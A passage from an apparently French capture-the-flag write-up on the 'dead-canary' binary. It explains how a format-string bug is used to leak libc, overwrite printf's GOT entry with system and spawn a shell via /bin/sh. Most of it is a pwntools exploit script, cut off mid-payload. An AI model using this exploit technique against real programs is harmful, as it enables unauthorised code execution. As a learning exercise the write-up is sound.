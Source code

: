 ### Appel à system et obtention d'un shell

Comme la première parti, nous tirons avantage de la format string pour réécrire l'entrée de `printf` dans la GOT par l'adresse de la fonction `system` que nous avons calculer grace au leak de la libc.

On redéclenchera alors un overflow sur le cookie, ce qui appelera le main via `__stack_chk_fail` et nous pourrons alors saisir `/bin/sh` dans le buffer qui sera passer à `system` via la réécriture de `printf` dans la GOT et ainsi déclenchera notre shell.

Il s'agit exactement de la même technique, je vais donc juste mettre à jour mon exploit:

```python
from pwn import *

elf = ELF("./dead-canary")
libc = elf.libc

p = process(elf.path)
p.recvuntil(": ")

log.warning("stage #1 : leaks.")
log.info("__stack_chk_fail: %s" % hex(elf.got.__stack_chk_fail))

fmt = "%064x"
fmt += "%11$n" 
fmt += "%01783x"
fmt += "%12$hn"
fmt += "%13$s"
fmt += "BBBBBBBBBBB\x00"
fmt += p64(elf.got.__stack_chk_fail + 2)
fmt += p64(elf.got.__stack_chk_fail)
fmt += p64(elf.got.printf) 
fmt += "C"*(272-len(fmt))

log.info("payload size : %s" % str(len(fmt)))
log.info("payload : %s" % fmt)

p.sendline(fmt)
data =  p.recvuntil(":")

data = data.strip().split("BBBB")[0].split("0")[-1]
l_printf = u64(data.ljust(8, "\x00"))
b_libc = l_printf - libc.sym.printf
libc.address = b_libc

log.info("leak printf: %s" % hex(l_printf))
log.info("leak libc  : %s" % hex(b_libc))
log.info("leak system: %s" % hex(libc.sym.system))

log.warning("stage #2 : exploitation.")

log.info("two write to make:")

first_write = int(hex(libc.sym.system)[-2:], 16)
second_write = int(hex(libc.sym.system)[-6:-2], 16)

log.info("1. [%s] => %s (%s)" % (hex(elf.got.printf), str(first_write), hex(first_write)))
log.info("2. [%s] => %s (%s)" % (hex(elf.got.printf +1), str(second_write), hex(second_write)))

exp = "%0{}x".format(first_write) 
exp += "%10$hn"
exp += "%0{}x".format(second_write - first_write)
exp += "%11$hn"
exp += "Z"*(31 - len(exp)) + "\x00"
```
